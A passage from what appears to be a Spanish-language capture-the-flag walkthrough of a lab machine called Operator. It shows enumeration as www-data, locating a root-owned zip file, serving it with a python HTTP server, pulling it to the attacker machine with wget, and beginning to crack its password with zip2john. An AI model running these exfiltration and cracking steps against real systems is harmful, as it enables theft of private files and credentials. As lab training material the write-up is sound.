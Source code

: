 ###### Usuario `[ www-data ]`:
Listando el directorio **home** tenemos lo siguiente:
```bash
ls -la /home

-rw-r--r--  1 root      root        66 Aug 19 21:49 Readme.txt
```

Si leemos su contenido:
```bash
He guardado mi archivo zip más importante en un lugar secreto.  
```

Por lo que necesitamos encontrar un archivo comprimido,  Para encontrarlo ejecutamos el siguiente comando
```bash
find / -type f -iname "*.zip" -user root -ls 2>/dev/null
```

Resultado:
```bash
262155      4 -rw-r--r--   1 root     root          430 Aug 18 22:28 /srv/secret/File.zip
```

Tenemos que transferirnos a nuestra maquina de atacante este archivo, y vemos que existe el binario de python en la maquina victima
```bash
which python3

/usr/bin/python3
```

Montamos un servidor web en la ruta donde se encuentra ese archivo comprimido
```bash
www-data@TheHackersLabs-Operator:/srv/secret$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Ahora desde nuestra maquina atacante, Realizamos la peticion para traernos el comprimido
```bash
wget http://192.168.100.25:8080/File.zip

--2025-08-25 18:19:42--  http://192.168.100.25:8080/File.zip
Connecting to 192.168.100.25:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 430 [application/zip]
Saving to: ‘File.zip’

File.zip                                                    

2025-08-25 18:19:42 (778 KB/s) - ‘File.zip’ saved [430/430]
```

Ahora que lo tenemos en nuestra maquina es seguro que tenga contrasena, Asi que usamos **john** para obtenerla
```bash
zip2john File.zip > hash
ver 2.0 File.zip/Credentials/ is not encrypted, or stored with non-handled compression type
```
